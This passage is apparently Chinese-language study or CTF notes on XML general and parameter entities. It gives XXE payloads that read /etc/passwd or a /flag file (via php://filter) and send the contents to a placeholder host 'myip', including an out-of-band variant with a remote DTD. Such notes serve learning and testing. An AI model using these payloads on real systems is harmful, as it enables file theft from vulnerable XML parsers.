 实体又分为参数实体与一般实体：

- 一般实体指代的是将来XML数据文档要用到的文本或数据。

```xml
<!--声明语法-->
<!ENTITY 实体名 "实体内容">
<!--引用方式-->
&实体名;
```
- 参数实体的作用是作为DTD中的元素的条件控制。

参数实体必须定义在**单独的DTD文档**中或XML文档的DTD区(但是**引用**只能在单独的DTD文档中，即**外部子集**，而不能在XML文档的DTD区->内部子集)。

```xml
<!--XML解析器都不会解析同级参数实体的内容-->
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % files SYSTEM "file:///etc/passwd">  
    <!ENTITY % send SYSTEM "http://myip/?a=%files;"> 
    %send;
]>
```

参数实体引用(Parameter Entity Reference)，禁止在内部DTD中引用参数实体。
```xml
<!--嵌套 PEReferences forbidden in internal subset in Entity PEReferences -->
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % file SYSTEM "file:///etc/passwd">  
    <!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">
    %start;
    %send;
]>
```

=> 引用外部的DTD

```xml
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip:10001/?%file;'>">
%start;
```

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/xml.dtd">  
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
    %remote;
    %send;
]>
<message>1234</message>
```

![](/assets/images/move/2019-08-31-11-02-11.png)
